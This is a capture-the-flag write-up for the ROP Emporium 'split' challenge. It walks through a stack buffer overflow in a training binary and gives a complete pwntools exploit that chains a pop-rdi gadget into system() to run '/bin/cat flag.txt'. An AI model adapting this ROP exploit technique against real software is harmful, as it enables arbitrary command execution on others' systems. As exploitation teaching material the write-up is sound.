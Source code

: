 # split

The elements that allowed you to complete ret2win are still present, they've just been split apart.
Find them and recombine them using a short ROP chain.

## Writeup

We can check if the binary is stripped or not:

```
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```

The binary is not stripped we can see function names.

Now check which checks are enabled in this binary:

```
[*] '/home/kali/ROP Emporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The stack is not executable, so we can't inject a shellcode.

The program in the **main** function call the function **pwnme**:

```c
void pwnme(void)
{
  undefined buffer [32];
  
  memset(buffer,0,32);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,buffer,96);
  puts("Thank you!");
  return;
}
```

This function insert **96 bytes** of user input into **32 bytes** of buffer.

The binary also has a function called **usefulFunction**:

```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```

The function launch the command **/bin/ls**, but we want to show the flag, so we need to insert another argument of the system function.

If we use the command **strings** in to the binary and grep for **/bin**, we can see that the binary contains the string '**/bin/cat flag.txt**':

```bash
strings split | grep /bin
```

With this output:

```
/bin/ls
/bin/cat flag.txt
```

So we can take the address of **system** inside the binary and the address of the string '**/bin/cat flag.txt**' and build the payload:

```python
buffer_dim = 32
offset = buffer_dim + 8

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
cat_flag_addr = next(exe.search(b'/bin/cat flag.txt'))
pop_rdi_addr = rop.find_gadget(['pop rdi'])[0]
system_addr = exe.symbols['system']

payload = [
    b'a' * offset,
    p64(ret),
    p64(pop_rdi_addr),
    p64(cat_flag_addr),
    p64(system_addr)
]
```

We put the address of the string '**/bin/cat flag.txt**' into the register **rdi** that is the register where functions take the first argument, by using the **pop rdi gadget**.

The final exploit will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template split
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'split')

context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

buffer_dim = 32
offset = buffer_dim + 8

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
cat_flag_addr = next(exe.search(b'/bin/cat flag.txt'))
pop_rdi_addr = rop.find_gadget(['pop rdi'])[0]
system_addr = exe.symbols['system']

payload = [
    b'a' * offset,
    p64(ret),
    p64(pop_rdi_addr),
    p64(cat_flag_addr),
    p64(system_addr)
]

payload = b''.join(payload)

io.sendlineafter(b'> ', payload)

io.interactive()
```

The output will be:

```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```